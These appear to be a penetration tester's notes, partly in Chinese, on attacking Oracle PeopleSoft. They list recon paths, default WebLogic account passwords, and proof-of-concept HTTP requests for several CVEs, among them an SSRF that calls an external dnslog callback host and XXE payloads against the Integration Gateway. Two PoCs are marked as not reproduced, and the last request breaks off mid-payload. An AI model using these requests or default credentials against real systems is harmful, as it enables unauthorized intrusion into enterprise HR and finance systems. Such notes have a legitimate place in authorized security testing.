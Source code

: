 
### 杂
- 获取版本号：`/PSEMHUB/hub`
- 找到site name/ID: `/`，匹配其结果`<a href="../ps/signon.html">`，这里就是`ps`

```
Human Resource Management Systems (HRMS)
Financial Management Solutions (FMS)
Supply Chain Management (SCM)
customer relationship management (CRM)
Enterprise Performance Management software (EPM)
```

>  PeopleSoft applications are quite complex and multi-component. Logically, their
security is not a simple thing either. 

Ref: 
- https://erpscan.io/wp-content/uploads/2017/10/Hack-and-Defense-Oracle-PeopleSoft-Security-Overview.pdf

### Attacks via WebLogic
> PS is usually installed together with the WebLogic application server. And this is how the system is accessible from the Internet.

>  WL + PS have several default user accounts: “system”, “operator”, “monitor”. The password is usually “password” or “Passw0rd”


### PoC
#### [CVE-2017-3546] SSRF in IMServlet(8.54, 8.55)
未复现成功。
```http
GET /IMServlet?Method=GOOGLE_PRESENCE&im_to_user=abc&im_server_name=GOOGLE&im_server=k57si0.dnslog.cn:80/?param=var
```

#### [CVE-2017-3548] XXE in PeopleSoftServiceListeningConnector(8.54, 8.55)
未复现成功。
```http
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: 172.16.2.91:8000
Content-type: text/xml
<!DOCTYPE a PUBLIC "-//B/A/EN" "C:\windows">
```

#### [CVE-2013-3821]  Integration Gateway HttpListeningConnector XXE(8.51, 8.52, and 8.53?)
```http
POST /PSIGW/HttpListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...

<?xml version="1.0"?>
<!DOCTYPE IBRequest [
<!ENTITY x SYSTEM "http://localhost:51420">
]>
<IBRequest>
   <ExternalOperationName>&x;</ExternalOperationName>
   <OperationType/>
   <From><RequestingNode/>
      <Password/>
      <OrigUser/>
      <OrigNode/>
      <OrigProcess/>
```